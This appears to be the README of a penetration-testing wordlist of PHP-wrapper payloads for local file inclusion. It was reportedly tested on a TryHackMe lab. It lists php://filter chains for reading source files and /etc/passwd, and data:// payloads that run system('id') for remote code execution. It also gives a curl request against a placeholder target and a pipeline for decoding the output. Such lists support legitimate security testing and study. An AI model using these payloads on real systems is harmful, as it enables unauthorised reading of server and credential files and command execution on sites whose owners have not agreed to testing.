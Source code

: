 # LFI PHP wrapper 
## `LFI-PHP-wrapper.txt`
- Tested against the playground in https://tryhackme.com/room/filepathtraversal
- The payload list given in `LFI-PHP-wrapper.txt` should be modified by replacing the placedholder (`*`) with a common filename, such as `index.php` or `/etc/passwd`.

```shell
$ sed 's/*/index.php/g' [lfi-php-wrapper-txt-filename] > lfi-php-wrappers-custom.txt
$ sed 's/*/\/etc\/passwd/g' [lfi-php-wrapper-txt-filename] > lfi-php-wrappers-custom.txt
```

Eg.

1. `php://filter/convert.base64-encode/resource=*` -> `php://filter/convert.base64-encode/resource=index.php`
2. `php://filter/convert.base64-encode/resource=*` -> `php://filter/convert.base64-encode/resource=/etc/passwd`
   
> For more comprehensive testing, the placeholder can be combined with the payload in dedicated LFI/path-traversal payload list (`LF.md`, etc.). This would effectively combine the capabilities of both wordlists.

### Theory behind the payload values
#### `php://filter` wrapper
```php
php://filter/string.rot13/resource=* 
php://filter/string.toupper/resource=* 
php://filter/convert.base64-encode/resource=* 
php://filter/string.rot13|string.rot13/resource=*
php://filter/read=string.rot13|string.rot13/resource=*
php://filter/string.rot13|convert.base64-encode/resource=*
php://filter/convert.base64-encode|string.rot13/resource=*
php://filter/read=string.rot13|convert.base64-encode/resource=*
php://filter/read=convert.base64-encode|string.rot13/resource=*
php://filter/string.toupper|string.rot13|string.rot13/resource=*
php://filter/read=string.toupper|string.rot13|string.rot13/resource=*
php://filter/zlib.deflate/resource=*
php://filter/bzip2.compress/resource=*
php://filter/zlib.deflate|convert.base64-encode/resource=*
php://filter/bzip2.compress|convert.base64-encode/resource=*
```
**variations derived from:**
- usage of different PHP filters (https://www.php.net/manual/en/filters.php)
- chaining filters using `|`
- using `php://filter/read=` instead of `php://filter`


#### `data://filter` wrapper
```php
data://text/plain;base64,PD9waHAgc3lzdGVtKCdpZCcpOyA/Pg==
data:text/plain,<?php%20system('id');%20?>
data:text/plain,%3C%3Fphp%20system%28%27id%27%29%3B%20%3F%3E
data%3Atext%2Fplain%2C%3C%3Fphp%20system%28%27id%27%29%3B%20%3F%3E
data://text/plain,<?php%20eval(\"system('id');\");%20?>
```
**variations derived from:**
- using both base64 (`data://text/plain;base64`) and plain text input (`data://text/plain`, `data:text/plain`)
- url encoding different parts of the payload (encoding special chars)
- utilizing various methods for achieving RCE: `system('id');`, `eval(\"system('id');\");`, `passthru(\"system('id');\");`


### Examples of working payload
1. ***bzip2 + base64 encode***
```php
php://filter/bzip2.compress|convert.base64-encode/resource=*
php://filter/read=bzip2.compress|convert.base64-encode/resource=*
```
- This will output a base64-encoded value that gives a bzip2 compressed data when decoded

Eg.
```shell
$ curl https://[target].com/page?=php://filter/bzip2.compress|convert.base64-encode/resource=/etc/passwd > output.txt

# extract base64 string
$ cat output.txt

$ echo [base64 string] | base64 -d | bzip2 -d
...
```
